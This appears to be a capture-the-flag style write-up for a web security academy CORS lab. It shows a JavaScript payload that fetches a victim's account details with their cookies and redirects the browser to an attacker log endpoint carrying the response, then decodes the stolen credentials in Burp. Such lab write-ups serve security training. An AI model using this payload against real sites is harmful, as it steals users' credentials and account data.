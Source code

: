 1. The following script is delivered to the victim:

	```
	<script>
		var req = new XMLHttpRequest();
		req.onload = reqListener;
		req.open('get','https://0a2d009103e823e780db94e900590045.web-security-academy.net/accountDetails',true);
		req.withCredentials = true;
		req.send();

		function reqListener() {
		   location='/log?key='+this.responseText;
		};
	</script>
	```
	**_The script does the following:_**   
		 -Create an XMLHttpRequest instance.  
		 Set the event handler that will be called when the response is received.  
		 opening a GET request to the URL to retrieve account details  
		 Sending cookies and HTTP authentication information in the request  
		 Sending the request  
		 Event handler function called when a response is received from the server  
		 forwarding the current page to a log file with the received response text as parameter  

2. After supposedly executing the script on victims machine his credentials get logged:   

	![grafik](https://user-images.githubusercontent.com/62068604/235905598-e0c9da27-2a71-47e4-9d20-2c2bb64555c8.png)

3. Decoding victim's credentials via Burp Decoder:   

	![grafik](https://user-images.githubusercontent.com/62068604/235902546-4feba875-89cd-4415-a944-708bff260b4b.png)
